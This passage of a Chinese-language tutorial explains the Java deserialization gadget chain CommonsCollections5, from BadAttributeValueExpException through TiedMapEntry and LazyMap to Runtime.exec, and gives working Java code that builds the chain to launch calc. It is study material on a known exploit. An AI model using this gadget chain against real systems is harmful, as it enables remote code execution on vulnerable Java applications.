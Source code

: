 <img width="2193" height="1455" alt="image" src="https://github.com/user-attachments/assets/2edbc858-9581-4bd8-a095-17d074d85d32" />

现在继续往上找，谁调用了toString()，
直接来到BadAttributeValueExpException异常类，
在这里的readObject()方法中调用了toString

<img width="2559" height="1527" alt="image" src="https://github.com/user-attachments/assets/02278326-1994-4808-95cf-69bd33241ee4" />

这里需要过掉两个if，才能调用到toString

代码分析：

如果 传入的 valObj是null，那就直接赋值null，
如果 传入的是String类型，赋值给val，
如果 当前没有SecurityManager(一般默认没有)，或者valObj是一个常见类型，
那就调用valObj.toString()

这里的toString调用的是TiedMapEntry.getValue()再调用的LazyMap.get()

<img width="558" height="150" alt="image" src="https://github.com/user-attachments/assets/9b0d7eff-5351-44e0-ae36-6118d270a2af" />

所以，直接在TiedMapEntry传入之前构造好的LazyMap，现在调用toString，是可以弹出计算器的


<img width="2082" height="1460" alt="image" src="https://github.com/user-attachments/assets/315e29b4-78ca-475c-b2ef-ae47a930563c" />

这个valObj就是val参数，
因为是private，需要反射获取

<img width="2082" height="1460" alt="image" src="https://github.com/user-attachments/assets/03e7fdc0-eefa-4ccd-96ef-46ab1c8ac94c" />

反射获取val，将其设置为之前构造好的tiedMapEntry

<img width="2082" height="1461" alt="image" src="https://github.com/user-attachments/assets/81b658ed-10be-4820-8b39-2f1a2e61896d" />

这里的valObj就等于tiedMapEntry，然后调用tiedMapEntry.toString()方法，
tiedMapEntry.toString()调用getValue()方法，
getValue()方法调用LazyMap.get()之后又调用ChainedTransformer，
最后调用InvokerTransformer.transform()执行Runtime.exe

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "hahaha");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class aClass = badAttributeValueExpException.getClass();
        Field val = aClass.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
